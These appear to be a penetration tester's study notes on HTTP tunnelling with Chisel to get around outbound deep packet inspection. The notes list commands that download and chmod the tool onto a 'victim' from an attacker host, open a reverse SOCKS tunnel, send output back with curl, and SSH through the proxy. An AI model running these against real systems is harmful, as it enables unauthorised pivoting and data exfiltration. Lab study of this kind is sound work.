 # Reason use
1. Deep Packet Inspection (app layer 7) of Outbound is inplemented
2. Only some format/protocol of data can use e.g. HTTP, DNS
3. Use tunneling

# HTTP Tunneling
## Chisel
- choose correct version & architecture: https://github.com/jpillora/chisel/releases
- transfer chisel to victim ``` bash -c 'wget "http://192.168.118.4/chisel" -O /tmp/chisel && chmod +x /tmp/chisel' ```
- kali host: ``` chisel server --port 8080 --reverse ```
- run chisel client in victim: ``` /tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 & ```
- run with error output: ``` /tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/ ```
- Debug with tcp packet anaylsis: ``` sudo tcpdump -nvvvXi tun0 tcp port 8080 ```
- OR check status of socks (same as be4): ``` ss -ntplu ```
- use ncat w/ Proxycommand to connect ``` ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215 ``` 

### Support local port / dynamic port fwing 
- local version like this (in victim) ``` /tmp/chisel client 192.168.45.225:8080 R:1080:10.4.225.215:8008  ```
- check this doc: https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/ 


# DNS 